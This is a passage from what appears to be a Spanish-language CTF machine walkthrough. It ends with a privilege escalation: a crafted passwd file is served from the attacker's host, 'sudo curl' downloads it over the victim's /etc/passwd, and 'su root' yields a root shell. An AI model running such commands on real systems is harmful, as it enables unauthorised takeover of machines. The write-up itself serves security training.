 Ahora abriremos un servidor de `python3` para sobreescribirlo desde la maquina victima.

```shell
python3 -m http.server
```

Ahora en la maquina victima realizamos lo siguiente:

```shell
URL=http://<IP>:8000/passwd
LFILE=/etc/passwd
sudo curl $URL -o $LFILE
```

Info:

```
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1187  100  1187    0     0   136k      0 --:--:-- --:--:-- --:--:--  144k
```

Una vez echo esto, haremos lo siguiente:

```shell
su root
```

Info:

```
root@b4b6bf85edb6:/home/balulero# whoami
root
```

Y con esto ya seremos `root`, por lo que habremos terminado la maquina.
